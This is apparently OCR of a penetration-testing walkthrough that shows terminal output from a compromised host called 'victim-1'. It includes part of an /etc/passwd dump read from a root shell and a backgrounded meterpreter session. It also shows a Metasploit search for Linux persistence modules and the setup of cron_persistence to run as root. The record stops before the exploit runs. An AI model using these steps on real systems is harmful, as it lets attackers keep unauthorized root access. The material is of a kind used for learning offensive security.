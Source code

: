 ```
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
messagebus:x:103:105::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
jackie:x:1000:1000:,,,:/home/jackie:/bin/bash
ftp:x:15:1001::/home/ftp:/bin/bash
root@victim-1:~# ^C
Terminate channel 1? [y/N]  y
meterpreter > 
Background session 4? [y/N]
```

```
msf5 exploit(unix/local/chkrootkit) > search platform:linux persistence

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/linux/local/apt_package_manager_persistence  1999-03-09       excellent  No     APT Package Manager Persistence
   1  exploit/linux/local/autostart_persistence            2006-02-13       excellent  No     Autostart Desktop Item Persistence
   2  exploit/linux/local/bash_profile_persistence         1989-06-08       normal     No     Bash Profile Persistence
   3  exploit/linux/local/cron_persistence                 1979-07-01       excellent  No     Cron Persistence
   4  exploit/linux/local/rc_local_persistence             1980-10-01       excellent  No     rc.local Persistence
   5  exploit/linux/local/service_persistence              1983-01-01       excellent  No     Service Persistence
   6  exploit/linux/local/yum_package_manager_persistence  2003-12-17       excellent  No     Yum Package Manager Persistence
   7  post/linux/manage/sshkey_persistence                                  excellent  No     SSH Key Persistence
```

```
msf5 exploit(unix/local/chkrootkit) > use exploit/linux/local/cron_persistence
msf5 exploit(linux/local/cron_persistence) > show options

Module options (exploit/linux/local/cron_persistence):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CLEANUP   true             yes       delete cron entry after execution
   SESSION                    yes       The session to run this module on.
   TIMING    * * * * *        no        cron timing.  Changing will require WfsDelay to be adjusted
   USERNAME  root             no        User to run cron/crontab as


Exploit target:

   Id  Name
```